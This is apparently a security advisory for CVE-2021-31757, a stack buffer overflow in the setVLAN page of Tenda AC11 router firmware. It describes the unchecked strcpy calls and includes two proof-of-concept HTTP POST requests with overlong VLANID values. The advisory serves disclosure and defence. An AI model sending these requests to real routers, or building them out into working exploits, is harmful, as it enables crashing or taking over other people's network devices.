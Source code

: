 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setVLAN` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
An issue was discovered on Tenda AC11 devices with firmware through 02.03.01.104_CN. A stack buffer overflow vulnerability in `/goform/setVLAN` allows attackers to execute arbitrary code on the system via a crafted post request.

In the function `sub_800CBC50` (page `/gofrom/setVLAN`) have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `VLANArea` in `v8` and `VLANID` in `v9`.
2. if `v8` is equal to `1`,`v9` copy to `v14` and jump to LABEL_6
3. In LABEL_6, `v14` will copy to a stack value `v40` by using `strcpy(v40, v14);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v40`
4. if `v8` is equal to `2`,`v9` will copy to a stack value `v37` by using `strcpy(v37, v9);`,so wo can also make stack buffer overflow in `v37`
![](./1.png)

## poc 

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=1&VLANID=aaaaaaaa&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/),[@peanuts](https://github.com/peanuts62),[@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-31757
